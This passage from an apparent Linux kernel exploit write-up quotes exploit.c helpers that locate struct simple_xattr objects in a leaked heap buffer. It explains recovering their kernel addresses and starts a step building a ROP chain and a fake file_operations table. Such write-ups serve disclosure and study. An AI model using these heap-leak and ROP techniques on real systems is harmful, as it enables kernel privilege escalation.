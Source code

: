 - [exploit.c#L653](./exploit.c#L653):

```c
bool is_data_look_like_simple_xattr(
  struct simple_xattr *xattr,
  int kmalloc_size,
  char *pattern,
  int pattern_size)
{
  if ((xattr->list.next >> 48) == 0xFFFF && (xattr->list.prev >> 48) == 0xFFFF &&
      (xattr->name >> 48) == 0xFFFF && xattr->size == kmalloc_size &&
      memcmp(xattr->value, pattern, pattern_size) == 0)
    return true;

  return false;
}
```

- [exploit.c#L278](./exploit.c#L278):

```c
int simple_xattr_manager_lookup(struct simple_xattr_manager *m, struct simple_xattr *xattr)
{
  for (int i = 0; i < m->len; i++)
    if (m->attrs[i]->size == xattr->size &&
        memcmp(m->attrs[i]->payload, xattr->value, xattr->size) == 0)
      return i;

  return -1;
}

```

- The exploit continue to search for data that look like `struct simple_xattr` object. In case `struct simple_xattr` object is found, save the attribute that is used to allocate that object and save the offset where that object is found in the leak buffer.
- From now on, I can allocate `struct simple_xattr` that have the payload i want on the same file that have `struct simple_xattr` object leaked. Then i leak the heap again and read the `list.prev` value to get the new allocated `struct simple_xattr` object address.

### Note:
- In case `struct user_key_payload` object is allocated at the first or second slot from the end of slab, the exploit can't find 2 `struct simple_xattr` objects. Anyway, the whole process can be repeat until the exploit found at least 2 `struct simple_xattr` objects.

## Step5: Create ropchain and a fake `struct file_operations` object

- [exploit.c#L911](./exploit.c#L911):

```c
uint64_t simple_xattr_kmalloc_8192_addr = prepare_rop_chain_and_fops_table(leak_simple_xattrs_on_kmalloc96);
```
